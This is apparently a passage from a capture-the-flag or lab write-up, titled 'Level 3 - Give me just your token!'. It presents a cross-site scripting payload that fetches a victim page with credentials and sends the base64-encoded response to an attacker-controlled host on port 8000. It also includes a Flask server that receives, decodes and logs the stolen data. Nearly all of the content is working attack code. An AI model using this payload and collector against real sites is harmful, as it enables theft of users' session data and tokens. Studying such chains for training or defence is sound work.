 ##🌙 Victim

```
script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://🌙/page', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'http://⭐:8000/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>
```

# 🎃Level 3 - Give me just your token! 🎃

## ⭐ Attacker

`python server.py`

```
from flask import Flask, request
import datetime
import base64

app = Flask(__name__)

# Define the log route
@app.route('/log', methods=['GET'])
def log_request():
    # Get the data parameter from the request
    encoded_data = request.args.get('data', '')

    # Decode the base64-encoded data
    try:
        decoded_data = base64.b64decode(encoded_data).decode('utf-8')
    except Exception as e:
        decoded_data = f"Error decoding data: {e}"

    # Log the decoded data with a timestamp
    with open("requests.log", "a") as log_file:
        log_file.write(f"{datetime.datetime.now()}: {decoded_data}\n")

    return "Data logged and decoded successfully.", 200

# Run the app
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```

##🌙 Victim
